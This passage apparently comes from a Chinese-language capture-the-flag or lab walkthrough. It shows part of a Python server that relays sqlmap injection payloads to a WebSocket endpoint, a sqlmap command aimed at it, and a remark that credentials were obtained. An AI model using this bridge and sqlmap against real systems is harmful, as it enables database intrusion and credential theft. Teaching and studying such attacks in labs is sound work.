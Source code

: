 ```
   except IndexError:
    payload = False

   if payload:
    content = send_ws(payload)
   else:
    content = 'No parameters specified!'

   self.send_header("Content-type", content_type)
   self.end_headers()
   self.wfile.write(content.encode())
   return

 class _TCPServer(TCPServer):
  allow_reuse_address = True

 httpd = _TCPServer(host_port, CustomHandler)
 httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
 middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
 pass
```

19.首先，运行 python 脚本，然后运行 sqlmap 命令

```
sqlmap -u “http://localhost:8081/?id=1" -p “id”
```

![](img/11fa0d74423f90a12d8126a4d0114fcb.png)

20.我们有一些证书
